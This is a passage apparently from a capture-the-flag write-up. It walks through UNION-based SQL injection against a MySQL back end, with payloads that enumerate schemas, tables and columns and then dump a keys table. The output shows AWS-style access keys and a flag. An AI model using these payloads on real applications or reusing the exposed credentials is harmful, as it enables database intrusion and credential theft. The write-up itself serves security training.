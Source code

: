 Then dump database name
`' Union Select 1,group_concat(schema_name),3,4,5 from information_schema.schemata-- -`
![](images/Pasted%20image%2020250801171632.png)
`jobs` database will be our target here

Then dump table names
`' Union Select 1,group_concat(table_name),3,4,5 from information_schema.tables where table_schema='jobs'-- -  `
![](images/Pasted%20image%2020250801171719.png)

I wanna continue to dump the table `keys_tbl`
`' Union Select 1,group_concat(column_name),3,4,5 from information_schema.columns where table_schema='jobs' and table_name='keys_tbl'-- -  `
![](images/Pasted%20image%2020250801171815.png)

I will focus on `key_name` and `key_value`
`' Union Select 1,group_concat(key_name,':',key_value),3,4,5 from keys_tbl-- -  `
![](images/Pasted%20image%2020250801171858.png)
```
AWS_ACCESS_KEY_ID:AKIA3G38BCN8SCJORKFL,AWS_SECRET_ACCESS_KEY:GMTENUBiGygBeyOc+GpXsOfbQFfa3GGvpvb1fAjf,FLAG:AWS{MySqL_T1m3_B453d_1nJ3c71on5_4_7h3_w1N}
```

